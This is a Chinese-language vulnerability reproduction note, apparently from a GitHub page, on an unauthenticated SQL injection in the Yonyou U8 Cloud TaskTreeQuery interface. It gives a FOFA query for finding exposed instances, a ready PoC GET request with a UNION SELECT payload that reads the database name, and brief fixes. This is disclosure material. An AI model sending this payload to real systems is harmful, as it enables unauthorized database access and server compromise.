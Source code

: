 
# 用友U8 Cloud TaskTreeQuery SQL注入漏洞复现

### 0x01 产品简介

  用友U8 Cloud是用友推出的新一代云ERP，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案。

### 0x02 漏洞概述

 用友U8 Cloud /service/~iufo/nc.itf.iufo.mobilereport.task.TaskTreeQuery接口处存在SQL注入漏洞，未授权的攻击者可以通过此漏洞获取数据库权限，进一步利用可导致服务器失陷。

### 0x03 复现环境

FOFA：app="用友-U8-Cloud"

![](assets/1701746370-ed119b34cebd5d67d84627ec847120bc.png)

### 0x04 漏洞复现

PoC

```vbnet
GET /service/~iufo/nc.itf.iufo.mobilereport.task.TaskTreeQuery?usercode=1'+UNION+all+SELECT+1,db_name(),3,4,5,6,7,8,9+from+master..sysdatabases--  HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

查询数据库名称

![](assets/1701746370-a31650707928158b6b2fc55bbb29fc4c.png)

SQLmap利用

### ![](assets/1701746370-d2a906bc7a5f4d41a5c9f0fdd73a8ace.png)0x05 修复建议

关闭互联网暴露面或接口设置访问权限

升级至安全版本
